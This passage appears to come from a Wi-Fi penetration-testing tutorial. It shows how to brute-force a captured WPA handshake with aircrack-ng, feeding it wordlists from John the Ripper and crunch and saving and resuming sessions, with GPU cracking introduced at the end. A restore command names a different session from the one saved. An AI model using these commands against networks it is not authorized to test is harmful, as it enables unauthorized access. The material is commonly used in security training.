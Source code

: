 So we need to quit after sometime, but aircrack-ng dont save the proccess if we start again it restart from begining. 

LETS SEE HOW TO SEE HOW TO SAVE THE CRACKING SESSION AND BEGIN FROM THE STOPPED PART:

▶️> john --wordlist=wordlist.txt --stdout

What this command does is just display all the passwords written in the wordlist in our screen.

We need to redirect this output of this command as an input to another command (This is an amazing feature in linux).

Lets redirect this to input to our aircrack-ng:

▶️> john --wordlist=wordlist.txt --stdout --session=mysession | aircrack-ng -w - -b 08:00:27:c7:e1:36 handshake-01.cap

(insted of putting a wordlist name to aircrack-ng we put a - to tell aircrack that get your result from the pipe. -b is the mac of the target network. and we give a --session argument and just give a name as mysession to save our progress and resume)

Now lets press q to quit. Here i stopped at 0.39%. 

▶️> john --restore=upc | aircrack-ng -w - -b 08:00:27:c7:e1:36 handshake-01.cap

Here we said john that start from the password that we left before, so it starts from the password we left before and start cracking with aircrack.

2. Piping huge wordlist to aircrack to save storage
---------------------------------------------------

▶️> crunch 8 8 -o all.txt   [ if we want use specific charecters we can specify as crunch 8 8 abc123# -o all.txt like this ]

This will generate a huge wordlist with all the combinations of a-z with a size above 1tb. So we dont have space, lets pipe it directly.

( if we just do crunch 8 8, it will display all the combos without storing )

▶️> crunch 8 8 | aircrack-ng -b 08:00:27:c7:e1:36 -w - handshake-01.cap

We need to save our progess also. So lets combine our saving progress and piping output skills together for a successfull attack.

⏩️> crunch 8 8 | john --stdin --session=newsession --stdout | aircrack-ng -b 08:00:27:c7:e1:36 -w - handshake-01.cap

Now assume i stopped by ctrl+c, now i need to restore our session:

▶️> crunch 8 8 | john --restore=newsession | aircrack-ng -b 08:00:27:c7:e1:36 -w - handshake-01.cap


3. USING GPU TO SAVE TIME
-------------------------

By default Aircrack uses cpu for the cracking process, we can use gpu for doing it for increasing time.

[ we use hashcat to do it, because aircrack-ng doesnot allow us to use gpu, and also we use in windows because most gpu has drivers for windows and very dificult for geting driver for linux, if we can install driver for linux, we can also do this from linux]
